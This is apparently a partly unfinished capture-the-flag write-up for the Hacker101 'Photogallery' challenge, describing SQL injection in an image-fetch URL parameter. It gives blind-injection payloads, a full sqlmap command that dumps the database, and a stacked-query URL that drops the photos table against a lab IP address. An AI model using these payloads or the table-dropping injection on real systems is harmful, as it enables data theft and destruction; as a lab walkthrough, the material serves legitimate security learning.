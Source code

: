 # Photogallery

This ctf took me quit a while to figure out. I personally found flag 1 first then flag 0 and I am still working on flag 2. I believe that most people will get flag 1 before flag 0. So i will write up flag 1 first. It's pretty straight forward.

## Flag 1 – SQL Injection

Navigating the website you will notice that there is not a lot to do. We can't buy anything click on anything or comment. Checking out the source code of the website we see that the images are being loaded from the url `/fetch?id=X` (X is a placeholder for a number). Browsing to that url you will see a site with the raw image data. The interesting part however is the url itself. Looking at the url parameter and replacing the value with sth like 2-1 for example shows that the application is vulnerable to sql injection. Great!

### Blind injection
Blind sql injeciton can be used to gain information about the database layout. For example using the following query shows the length of the db_name :

```
.../fetch?id=4 OR LENGTH(database()) = 6
```
from there it is possible to guess the name using queries similar to the following:
```
.../fetch?id=4 or database() LIKE '______'
```
You can replace a single '_' with any sign in order to guess the sign at that position. Once you guessed the correct value you can replace the next underscore. The underscore characters serve as a wildcard for a single character. It is important to use 6 underscores since that is the length of the databse name.

After obtaining the database name the following query can be used to find out the number of tables in the database:
```
.../fetch?id=1 AND (SELECT Count(*) FROM information_schema.tables WHERE table_schema=database())=2
```

After that i went after the table names. There is a great tutorial on doing this [here](https://delayma.wordpress.com/2019/01/09/magical-image-gallery-1-3-hacker-101-ctf/).

The db layout looks like this :
DB Layout:
...db_name: "level5" 
...num_of_tables : 2
...tables_names : albums, photos

For the extraction of the data i used sqlmap. I dumped the entire database using the following commands:
```
sqlmap -u ".../fetch?id=2" --method GET --dump -D level5 -T photos -p id --code 200 --skip-waf --random-agent --threads 10 -o
```

You will find flag 1 in the entry for the invisible kitty.


## Flag 0 – SQL Injection



### Union based injection


## WIP



To dump it all :
sqlmap -u "http://35.237.57.141:5001/b09a24aa14/fetch?id=2" --method GET --dump -D level5 -T photos -p id --code 200 --skip-waf --random-agent --threads 10 -o

Flag 2 – Stacked Queries
Drop a table: (breaks app)
http://35.196.135.216/5ddb86c66f/fetch?id=1;%20DROP%20Table%20photos



